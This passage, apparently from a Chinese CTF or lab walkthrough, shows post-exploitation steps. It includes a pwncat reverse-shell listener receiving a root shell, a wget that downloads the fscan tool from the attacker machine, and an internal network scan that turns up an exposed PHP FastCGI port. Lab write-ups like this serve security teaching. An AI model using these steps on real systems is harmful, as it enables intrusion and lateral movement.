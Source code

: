 即可收到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[11:02:56] Welcome to pwncat 🐈!
[11:05:45] received connection from 192.168.200.2:34432
[11:05:45] 192.168.200.2:34432: registered new host w/ db
(local) pwncat$ back
(remote) root@31b77ed217da:/# whoami
root
```

从攻击机上下载 `fscan` 二进制文件，查看网段信息

```shell
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/fscan
--2024-07-25 03:10:17--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.04s

2024-07-25 03:10:17 (152 MB/s) - ‘fscan’ saved [7100304/7100304]

(remote) root@31b77ed217da:/tmp# chmod +x fscan
(remote) root@31b77ed217da:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.3  netmask 255.255.255.0  broadcast 192.168.100.255
        ether 02:42:c0:a8:64:03  txqueuelen 0  (Ethernet)
        RX packets 1023  bytes 15481580 (14.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 755  bytes 64521 (63.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

并执行网段扫描（结果已排除宿主机）

```plaintext
start infoscan
(icmp) Target 192.168.100.2   is alive
(icmp) Target 192.168.100.3   is alive
[*] Icmp alive hosts len is: 3
192.168.100.2:80 open
192.168.100.2:9000 open
192.168.100.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 192.168.100.2:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
```